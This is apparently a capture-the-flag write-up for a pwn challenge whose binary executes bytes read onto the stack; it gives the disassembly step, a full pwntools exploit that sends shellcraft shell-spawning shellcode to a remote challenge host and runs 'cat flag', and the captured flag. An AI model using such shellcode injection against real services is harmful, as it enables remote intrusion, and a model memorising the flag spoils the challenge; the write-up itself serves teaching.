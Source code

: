 # tinggal run
> asli serius tinggal run aja

Author: vannn


## About the Challenge
This challenge gives a chall elf

## How to Solve?

First, we disassembly the call using the command. 

```
objdump -d chall > chall.asm 
```

From disassembly: the program reads up to 0x100 bytes into a buffer on the stack and then calls that buffer as a function (call *%rdx). This allows us to send machine code (shellcode) to be executed. So I created a position-independent shellcode (using pwntools shellcraft), sent those bytes over a socket to the service, and then ran a command like cat flag.txt through the spawned shell. and this is my exploit.py

```
#!/usr/bin/env python3
from pwn import *

HOST, PORT = 'intersec.hcs-team.com', 10095
context.update(arch='amd64')
sc = asm(shellcraft.sh())

io = remote(HOST, PORT)
io.send(sc)
for cmd in [b'cat flag', b'cat flag.txt']:
    io.sendline(cmd)
    try:
        print(io.recv(timeout=2).decode(errors='ignore'))
    except EOFError:
        break
io.close()

```
then just run it and

<img width="786" height="574" alt="Screenshot from 2025-09-17 22-44-48" src="https://github.com/user-attachments/assets/81939d9e-c100-40a4-88ac-f5ff1231615b" />


Boom. we got the flag

## Flag
```
HCS{sh3llc0de_us1ng_sh3llcraft_4nd_sh3llstorm_db5964f1-137c-4e6e-9590-6d70da055b6a}

```
